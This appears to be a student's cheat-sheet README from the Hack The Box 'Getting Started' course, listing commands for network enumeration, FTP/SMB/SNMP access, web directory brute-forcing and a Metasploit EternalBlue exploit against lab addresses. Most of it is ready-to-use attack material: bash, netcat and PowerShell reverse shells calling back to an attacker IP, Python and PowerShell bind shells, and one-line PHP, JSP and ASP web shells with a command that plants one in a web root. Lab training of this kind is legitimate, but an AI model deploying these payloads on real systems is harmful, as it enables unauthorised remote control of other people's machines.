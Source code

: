 # GettingStarted(HTB)
Lessons and Tutorials Covered

## NCAT
# netcat can be used to connect to any listening port and interact with the service running on that port.
> ncat ip port 
> nc -nv ip port

## NMAP
# port scanner
> nmap -sV -sC -p- 10.129.42.253
> whatweb --no-errors 10.10.10.0/24
> nmap -sV --script=banner -p21 10.10.10.0/24
> nmap -sC -sV -p21 10.129.42.253
> nmap --script smb-os-discovery.nse -p445 10.10.10.40
> nmap -A -p445 10.129.42.253

> locate scripts/citrix
> nmap --script <script name> -p<port> <host>
  
  ## Connecting 
  # ftp =   ftp -p 10.129.42.253
  # smb =   smbclient -N -L \\\\10.129.42.253
    smbclient \\\\10.129.42.253\\users
    smbclient -U bob \\\\10.129.42.253\\users
  # snmp =   snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
    snmpwalk -v 2c -c private  10.129.42.253 
    onesixtyone -c dict.txt 10.129.42.254
  
  
  ## WEB Enumb
  # banner grabbing
  > curl -IL https://www.inlanefreight.com
  > whatweb 10.10.10.121
  > whatweb --no-errors 10.10.10.0/24
  # scan web directories
  > gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
  
  ## Exploit Scan
  # sudo apt install exploitdb -y
  > searchsploit openssh 7.2
  ## Metasploit
  # Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
  > msfconsole
    > search exploit eternalblue
    > use exploit/windows/smb/ms17_010_psexec
    > set RHOSTS 10.10.10.40
    > check
    > exploit
  
  ## Reverse Shell
  # on my computer
  > nc -lvnp 1234
  > nc 10.10.10.1 1234
  # on host
  > bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  > powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
## BIND Shell
  #
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
  > python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
## Once in
  > python -c 'import pty; pty.spawn("/bin/bash")'
  
  ## WEB SHELLS
Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
php = <?php system($_REQUEST["cmd"]); ?>
jsp = <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
asp = <% eval request("cmd") %>
  # eg = echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
  # browser http://SERVER_IP:PORT/shell.php?cmd=id    or curl http://SERVER_IP:PORT/shell.php?cmd=id
  
  

* File Inclusion / Directory Traversal (HTB Academy)
* Linux Fundermentals (HTB Academy)
* Login Attacks (HTB Academy)
* Metasploit (HTB Academy)
* Nmap (HTB Academy)
* Web Enumeration
* Windows Fundermentals (HTB Academy)

##### Connect to VPN
> sudo openvpn user.ovpn
